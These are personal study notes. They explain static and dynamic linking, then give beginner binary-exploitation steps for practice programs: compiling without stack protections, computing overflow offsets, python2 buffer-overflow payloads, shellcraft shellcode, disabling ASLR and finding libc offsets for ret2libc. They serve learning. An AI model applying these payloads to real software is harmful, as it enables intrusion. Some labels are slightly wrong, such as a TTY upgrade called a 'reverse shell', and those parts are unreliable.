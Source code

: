 ```yaml
---
title:  2022-06-30
tags:
  - linker
programming-languagues:
created: 2022-06-30
---
```

# 2022-06-30
---
# Linker
Linking is the process of bringing external programs together required by the one we write for its successful execution. **Static** and **dynamic** linking are two processes of collecting and combining multiple object files in order to create a single executable.

Linking can happen at both **compile** and **load** time. 

- Compile time: source code is translated into machine code.
- Load time: program is loaded into memory by the loader, and even at run time, by application programs.

## Static Linking
It is the process of copying all library modules used in the program into the final executable image.

This is performed by the linker and it is done as the last step of the compilation process. The linker combines library routines with the program code in order to resolve external references, and to generate an executable image suitable for loading into memory. When the program is loaded, the operating system places into memory a single file that contains the executable code and data.

This statically linked file includes both the calling program and the called program.

Statically linked files are significantly larger in size because external programs are built into the executable files.

They also take constant load time every time it is loaded into the memory for execution and if anything is changed in the program, it has to be recompiled and re-linked again else the changes won't reflect in existing executable file.

Programs in general are faster though and all code is contained in a single executable module. Therefore, they never run into compatibility issues.

## Dynamically Linking
The names of the external libraries (shared libraries) are placed in the final executable file while the actual linking takes place at run time when both executable file and libraries are placed in memory. Dynamically linking lets several programs use a single copy of executable module.

It is performed at run time by the OS and only one copy of the shared library is kept in memory. This significantly reduces the size of executable programs, thereby saving memory and disk space.

Individual shared modules can be updated and re-compiled, it is one of the greatest advantage. Additionally,  load time might be reduced if the shared library code is already in memory.

They do depend on a compatible library. Therefore, if the library changes, applications might need to be re-worked.

---
# Binary Exploitation
## 00
- Check file vulnerabilities:
```bash
checksec --file <filename>
```

- Gets rid of Stack, NX and PIE protection (-m32 changes to 32bits):
```bash
gcc <filename>.c -o <filename> -fno-stack-protector -z execstack -no-pie -m32
```

## 01
GDB-Pwndbg:
- It breaks exactly where the breakpoint is.

To view a variable/condition you can use the code below. This would print the location of the result, so it is a pointer to a register that holds it.
```bash
x $ebp - 0xc
```

You can then change that register like this:
```bash
set *0xffffceac = 1
```

## 02
If file type is **LSB** then reverse order, for example _dead_ would be _daed_. To get it:

```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
```

Send to a file and run with it: (xD)
```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./runMeImaFile < payload
```

## 03
Radare2:
```bash
aa
afl
```

We can use `cyclic 100` in `gdb-pwndbg` to generate a pattern, then run that into the program. We then get the characters in the register (eg `eip`) and run `cyclic -l <string>`, so for example: 
```bash
cyclic -l haaa
```

It will return how many bytes we need to overflow.

If the function we want to access is in `0x08049182` for example, we can do:
```bash
python2 -c 'print "A" * 28 + "\x82\x91\x04\x08"' > payload
```

```bash
ropper --file ret2win_params --search "pop rsi"
```

## 04
We check the `cycle`, then figure out how much to overflow. We find the `return` address (what function returns), set a breakpoint to it then run the program with the payload generated.

deadbeef = `\xef\xbe\xad\xde`

When a function is called, the return pointer is pushed to the stack, so it knows where to return to, followed by any function parameters.

With 64bits, we have to populate the registers not just send the parameters, for example `rdi` and `rsi`. We also when running `cyclic` take the values from the `RSP`, for example the first four.

## 05
Getting a shell:
```bash
shellcraft -l
shellcraft i386.linux.sh

# to get it in assembly:
shellcraft i386.linux.sh -f a
```

To get a reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
# control + z
stty raw -echo; fg;
export TERM=xterm
```

## 06
This file is safer as you can see with `checksec`. Therefore, we need to execute `bin/sh` from LibC.

To find libC we can run `ldd <filename>`.

To turn off randomiser:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To get libC address:
```bash
ldd <filename>
```

To find the offset from base libC to system:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

To find offset to `/bin/sh` for example:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/bash"
```

### Useful tools
- Ghidra
- GDB
- Radare2
- Ropper
- GDB-PwnDBG
- LTrace